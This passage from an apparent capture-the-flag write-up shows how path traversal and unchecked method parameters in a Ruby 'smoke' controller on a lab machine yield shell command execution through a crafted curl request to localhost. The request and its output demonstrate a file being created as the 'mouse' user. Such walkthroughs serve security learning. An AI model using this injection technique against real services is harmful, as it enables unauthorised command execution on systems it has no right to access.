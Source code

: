 Another interesting thing is that the `/opt/wonderland/logs` directory has the group set to `mouse`
and writable permissions are set for it. This implies that the `mouse` user runs the `pool-of-tears`
service.

```shell
$ ls -la /opt/wonderland/logs
total 8
drwxrwxr-x 1 root mouse 4096 Jun  7 23:20 .
drwxr-xr-x 1 root root  4096 May 28 17:11 ..
$
```

Going back to `/opt/wonderland/pool-of-tears/app/controllers/smoke_controller.rb`, we can see that
we now have control over more of the parameters since we can make requests via CURL.

```shell
$ curl localhost:4000
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100     2    0     2    0     0    400      0 --:--:-- --:--:-- --:--:--   400
OK$
```

If we pass the following:

* `ctype = "Kernel"`
* `cop = "system"`
* `uniqid = "../../../../../../bin/bash"`
* `cargs = ["-c", "touch /tmp/testing"]`
* `content = "x"`

Then we can coerce the controller to execute the following:

```ruby
Kernel.system("/opt/wonderland/logs/../../../../../../bin/bash", "-c", "touch /tmp/testing")
```

To test this out:

```shell
$ ls -la /tmp
total 20
drwxrwxrwt 1 root   root   4096 Jun  7 23:28 .
drwxr-xr-x 1 root   root   4096 Jun  6 22:29 ..
drwxrwx-wx 1 root   root   4096 Jun  7 00:33 hackers_use_me
drwxr-xr-x 2 hatter hatter 4096 Jun  7 00:52 hsperfdata_hatter
drwxr-xr-x 1 root   root   4096 May 28 17:14 hsperfdata_root
$ curl 'http://localhost:4000/api/v1/smoke?uniqid=%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2F%2E%2E%2Fbin%2Fbash&ctype=Kernel&cop=system&cargs[]=-c&cargs[]=touch%20%2Ftmp%2Ftesting&content=potato'
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    28    0    28    0     0   1400      0 --:--:-- --:--:-- --:--:--  1400
Type is not implemented yet.
$ ls -la /tmp
total 20
drwxrwxrwt 1 root   root   4096 Jun  7 23:31 .
drwxr-xr-x 1 root   root   4096 Jun  6 22:29 ..
drwxrwx-wx 1 root   root   4096 Jun  7 00:33 hackers_use_me
drwxr-xr-x 2 hatter hatter 4096 Jun  7 00:52 hsperfdata_hatter
drwxr-xr-x 1 root   root   4096 May 28 17:14 hsperfdata_root
-rw-r--r-- 1 mouse  mouse     0 Jun  7 23:31 testing
$
```
